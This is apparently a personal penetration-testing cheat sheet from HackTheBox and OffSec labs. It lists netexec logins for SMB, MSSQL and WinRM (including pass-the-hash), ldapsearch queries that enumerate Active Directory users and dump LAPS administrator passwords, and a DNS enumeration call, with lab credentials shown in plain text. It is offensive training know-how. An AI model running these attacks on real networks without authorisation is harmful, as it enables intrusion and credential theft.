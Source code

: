 Enumerate smb shares with valid credentials
```
netexec smb 10.10.11.236 -u operator -p operator --shares
```

Test login for smb with *hash
```
nxc smb 192.168.120.172 -u Administrator -H 608339ddc8f434ac21945e026887dc36
```

Test login for *mssql* with valid credentials
```
netexec mssql 10.10.11.236 -u operator -p operator
```

Test login for *winrm* with valid credentials
```
netexec winrm 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
```

### ldapsearch 
Get DC info 
```
ldapsearch -x -H ldap://10.10.10.161 -x -s base
```

```
ldapsearch -x -H ldap://10.10.10.161 -x -b 'DC=htb,DC=local' > ldapinfo.txt
```

List users in domain
```
ldapsearch -x -b "dc=htb,dc=local" -H ldap://10.10.10.161 '(ObjectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}'
```

List service accounts in the domain (may miss some from above query)
```
ldapsearch -x -b "dc=htb,dc=local"  -H ldap://10.10.10.161 | grep -i -a 'Service Accounts'
```

Search for objects and hopefully discover creds in descriptions..
```
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.175.122" "(objectclass=*)"
```

Use found creds to determine if user has LAPS access
```
ldapsearch -x -H "ldap://192.168.188.122" -D "hutch\fmcsorley" -w "CrabSharkJellyfish192" -b "dc=hutch,dc=offsec" '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
```
- If there is ms-MCS-AdmPwd -> use psexec to login with that pass as administrator

### DNS Enum 

[Cheatsheet](https://hacktricks.boitatech.com.br/pentesting/pentesting-dns)
```
dnsenum 192.168.175.122
```
